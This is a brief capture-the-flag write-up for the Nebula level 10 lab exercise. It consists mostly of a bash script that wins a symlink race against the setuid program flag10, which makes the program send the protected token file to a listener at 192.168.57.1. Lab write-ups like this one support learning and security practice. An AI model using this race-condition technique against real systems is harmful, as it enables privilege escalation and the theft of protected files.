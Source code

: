 .. nebula10:

.. role:: bash(code)
	  :language: bash
		     
Nebula level 10
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level10/

Solution
--------

Put this on a file and execute it

.. code-block:: bash
		#!/bin/bash
		CONT=0.00001
		INC=0.00001

		while true; do
		    cd /home/flag10
		    ln -sf /home/level10/x /home/level10/y
		    ./flag10 /home/level10/y 192.168.57.1 &
		    sleep ${CONT}
		    ln -sf /home/flag10/token /home/level10/y #| grep -v exist
		    echo  "Voy en " ${CONT}
		    CONT=$(awk "BEGIN {print ($CONT+$INC)}")
		    sleep 2
		done

